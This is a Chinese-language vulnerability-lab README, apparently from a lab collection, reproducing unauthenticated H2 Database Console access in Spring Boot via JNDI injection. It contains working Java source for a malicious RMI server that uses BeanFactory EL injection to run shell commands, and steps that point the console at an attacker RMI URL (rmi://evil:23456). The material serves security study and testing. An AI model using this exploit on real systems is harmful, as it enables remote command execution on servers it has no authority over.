




# H2 Database Console 未授权访问

H2 database是一款Java内存数据库，多用于单元测试。H2 database自带一个Web管理页面，在Spirng开发中，如果我们设置如下选项，即可允许外部用户访问Web管理页面，且没有鉴权：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

利用这个管理页面，我们可以进行JNDI注入攻击，进而在目标环境下执行任意命令。

参考链接：

- <https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e>

## 漏洞环境

执行如下命令启动一个Springboot + h2database环境：

```
docker-compose up -d
```

启动后，访问`http://your-ip:8080/h2-console/`即可查看到H2 database的管理页面。

## 漏洞复现

目标环境是Java 8u252，版本较高，因为上下文是Tomcat环境，我们可以参考《[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)》，使用`org.apache.naming.factory.BeanFactory`加EL表达式注入的方式来执行任意命令。

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServerNew {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

我们可以借助这个小工具[JNDI](https://github.com/JosephTribbianni/JNDI)简化我们的复现过程。

首先设置JNDI工具中执行的命令为`touch /tmp/success`：



然后启动`JNDI-1.0-all.jar`，在h2 console页面填入JNDI类名和URL地址：



其中，`javax.naming.InitialContext`是JNDI的工厂类，URL `rmi://evil:23456/BypassByEL`是运行JNDI工具监听的RMI地址。

点击连接后，恶意RMI成功接收到请求：



`touch /tmp/success`已成功执行：


